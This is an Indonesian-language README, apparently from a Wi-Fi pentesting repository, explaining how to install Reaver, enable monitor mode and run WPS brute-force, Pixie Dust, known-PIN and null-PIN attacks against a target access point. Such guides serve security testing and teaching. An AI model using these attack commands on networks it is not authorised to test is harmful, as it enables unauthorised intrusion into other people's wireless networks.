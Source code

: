 # Reaver

![Reaver](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/reaver/img/reaver.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install reaver aircrack-ng pixiewps
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   git clone https://github.com/t6x/reaver-wps-fork-t6x
   cd reaver-wps-fork-t6x
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

**1. Scan Wi-Fi WPS:**

```
sudo wash -i [interface]
```

**2. Pilih Taraget**

Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

**3. Jalankan Serangan:**

1. Brute Force PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -vv
   ```
2. Pixie Dust Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
   ```
3. Known PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -p [pin_wps] -vv
   ```
4. Null PIN Attack:

   ```
   sudo reaver -i [interface] -b [bssid] -c [channel] -p "" -vv
   ```

## Video Demonstrasi

https://youtu.be/ftriFQwsiNU?si=Ku-meK7gUpv-RXut
